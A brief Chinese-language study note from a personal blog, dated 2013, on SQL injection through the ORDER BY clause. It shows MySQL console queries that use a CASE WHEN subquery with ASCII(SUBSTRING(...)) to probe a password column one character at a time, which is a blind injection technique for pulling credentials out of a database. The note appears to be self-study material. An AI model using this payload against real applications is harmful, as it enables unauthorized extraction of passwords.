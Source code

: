 title: "ORDER BY后变量注入"
date: 2013-06-14 22:31:50
tags:
id: 259
comment: false
categories:
  - 学习笔记
---

盲注比较麻烦。
<pre class="brush:sql">mysql&gt; select * from pd_users order by (CASE WHEN (SELECT ASCII(SUBSTRING(pa, 1,
 1)) FROM pd_groups where gid = 1 ) = 48 THEN 1 ELSE (select 1) END );
ERROR 1054 (42S22): Unknown column 'pa' in 'field list'
mysql&gt; select * from pd_users order by (CASE WHEN (SELECT ASCII(SUBSTRING(passwo
rd, 1, 1)) FROM pd_groups where gid = 1 ) = 48 THEN 1 ELSE (select 1) END );
+--------+----------+----------------------------------+-----------------+------
+------------+--------------+-----------+-----------------+---------------+-----
-------+------------+--------+--------+------+-----+-----------+------------+---
--------+-----------------+------------------+-----------------+----------------
---+-----------------+-----------------+-----------------+---------------+------
---------+
| userid | username | password                         | email           | gid</pre>
&nbsp;